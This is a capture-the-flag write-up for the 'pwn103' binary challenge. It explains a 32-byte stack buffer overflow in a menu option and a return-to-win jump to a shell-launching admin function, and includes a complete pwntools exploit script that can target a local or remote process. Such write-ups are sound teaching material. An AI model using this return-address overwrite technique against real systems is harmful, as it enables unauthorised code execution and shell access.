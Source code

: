 # Challenge 3
Overflow vuln in option 3 - `general()` - Buffer size `0x20 = 32`

![](attachments/8f329e20bf124109fe72ee3cc59b2965.png)

function `admins_only()` launches shell @ `0x0000000000401554`

Breakpoints;
0x00401327 - `general()` @ `scanf`
0x004015fa - `main()` @ `scanf`
0x00401554 - `admin()`
"return2win"


So from the assembly we have our input buffer (`0x20` = 32 bytes)
Then we have our RBP (Stack Frame Pointer), which we just put empty as its not that important for us.
Finally we overwrite our return address, putting this to `0x00401555` 
We're jumping to the 2nd instruction right away, skipping the `push rbp` because that seemed to cause a crash - not entirely sure why...

![](attachments/81a96eb8fd3a70caf2d7b93f90b72554.png)

(Stack Frame Layout - Grows downwards in this picture)

![](attachments/a8f1e3e82ccab97ce513e783a2691c6e.jpg)

Exploit code

```python
from pwn import *
from pwnlib.util.packing import p64
import sys

# Buffer
buffer = b'A' * 0x20

nop = p64(0x0)           # Overwrite RBP
admin = p64(0x00401555)  # Admin function location

PAYLOAD = buffer + nop + admin

if sys.argv[1] == "local":
    proc = process("pwn103-1644300337872.pwn103")
    print("Local process starting")
else:
    proc = remote(sys.argv[1], int(sys.argv[2]))
    print("Online connection")

proc.recvuntil(b"Choose the channel: ")
proc.sendline(b"3")
proc.recvuntil(b"[pwner]: ")

# Sending payload..
proc.sendline(PAYLOAD)
proc.interactive()
```
